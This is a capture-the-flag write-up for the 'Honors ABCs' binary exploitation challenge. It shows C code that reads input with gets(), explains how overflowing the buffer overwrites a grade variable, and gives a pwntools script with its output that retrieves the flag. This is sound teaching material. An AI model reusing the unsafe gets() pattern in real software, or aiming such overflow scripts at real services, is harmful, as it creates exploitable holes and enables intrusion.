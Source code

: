 # Honors ABCs

#### Category : binex
#### Points : 75 points (254 solves)
#### Author : Edward Feng

## Challenge
Here at BCA, we don't deal with normal classes. Everything is at the honors level or above! Let's start by learning about the alphabet.

And by learning, we obviously mean testing. Don't cheat!

-   [honors-abcs.c](https://objects.bcactf.com/bcactf2/honors-abcs/honors-abcs.c)
-   [honors-abcs](https://objects.bcactf.com/bcactf2/honors-abcs/honors-abcs)
-   `nc bin.bcactf.com 49155`

## Solution
This was a simple buffer overflow exploit.

#### Vulnerable code
```cpp
	puts("╔════════════════════════╗");
    puts("║ THE QUIZ               ║");
    puts("║                        ║");
    puts("║ 1) Recite the alphabet ║");
    puts("╚════════════════════════╝");
    puts("");
    printf("Answer for 1: ");
    gets(response);

    for (int i = 0; i < 26; ++i) {
        if (response[i] == 0)
            break;
        if (response[i] != correct[i])
            break;

        grade = i * 4;
    }
```
`gets` is being used in the code, so we can overwrite the variable `grade` using it.

#### flag code
```cpp
else if (grade == 100) {
        puts("Perfect score!");
        puts("You are an model BCA student.");
    } else {
        puts("How did you end up here?");
        sleep(2);
        puts("You must have cheated!");
        sleep(2);
        puts("Let me recite the BCA plagarism policy.");
        sleep(2);

        FILE *fp = fopen("flag.txt", "r");
```

#### Getting flag.txt
So clearly, we don't need to assign a particular value to `grade` so we can just send a lot of `A`s and we should get the flag.

```python
#!/usr/bin/python2
from pwn import *
host = "bin.bcactf.com"
port = 49155
s = remote(host, port)
s.recvuntil("Answer for 1: ")
s.sendline("A"*200)
s.recvuntil("BCA plagarism policy.")
print(s.recvuntil("bcactf{")[-7:] + s.recvuntil("}"))
```

```bash
$ python get_flag.py
[+] Opening connection to bin.bcactf.com on port 49155: Done
bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}
[*] Closed connection to bin.bcactf.com port 49155
```

flag  : `bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}`